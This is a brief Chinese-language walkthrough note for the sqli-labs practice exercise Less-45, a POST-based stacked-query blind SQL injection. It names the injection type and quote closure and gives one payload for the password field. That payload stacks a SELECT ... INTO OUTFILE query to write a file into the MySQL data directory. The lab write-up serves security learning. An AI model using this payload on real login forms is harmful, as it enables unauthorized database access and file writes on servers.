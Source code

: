 ![](file/image_48MT1XsoKm.png)

### Less-45：POST - Stacked Query Blind based twist

**注入类型**

堆叠注入

**闭合方式**

id=('\$id')

```sql
password=admin');select 'Less-45',database(),3 into outfile "C:\\phpStudy\\MySQL\\data\\dump.txt" #
```

![](file/image_9Dg0V-BdDn.png)

